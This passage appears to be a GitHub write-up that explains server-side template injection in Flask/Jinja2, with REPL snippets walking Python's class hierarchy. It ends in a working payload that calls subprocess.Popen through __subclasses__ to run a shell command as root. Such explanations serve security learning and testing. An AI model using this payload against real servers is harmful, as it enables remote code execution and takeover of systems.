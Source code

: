 - [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
- [https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)
- [https://www.lanmaster53.com/2016/03/exploring-ssti-flask-jinja2-part-2/](https://www.lanmaster53.com/2016/03/exploring-ssti-flask-jinja2-part-2/)

These articles probably explain it better and more in detail but 
here's my shortened version of the exploit:

Using builtin types such as strings and `__mro__`, `__class__`, and `__subclasses__`, you can traverse up and down object inheritance tree in Python. You can test parts of the exploit in Python to see how it works.

```python
>>> "" # just a string, can be declared
# ''
```

Now we can obtain the class object of the string. This can be done with other builtins like lists or ints. In this case we will use a string.

```python
>>> "".__class__
# <class 'str'>
```

Using the MRO function, we can list all the classes the string inherits. As shown below, the string is both a string and an object.

```python
>>> "".__class__.__mro__ 
# (<class 'str'>, <class 'object'>)
```

Access just the object from the tuple.

```python
>>> "".__class__.__mro__[1]
# <class 'object'>
```

Access classes that inherit object. Returns a huge list of all objects in the environment.

```python
>>> "".__class__.__mro__[1].__subclasses__()
# [<class 'type'>, <class 'weakref'>,
# ...
# <class 'apport.packaging.PackageInfo'>, <class 'gettext.NullTranslations'>]
```

The object used for shell is in this case is `subprocess.Popen`. This is just one example, there are other ways of using builtins and importing os that work as well.

Looking through the list and finding the index of the object, we can call its normal functions and execute code.

```python
>>> ''.__class__.__mro__[1].__subclasses__()[340]('whoami', shell=True, stdout=-1).communicate()[0].strip()
# root
```
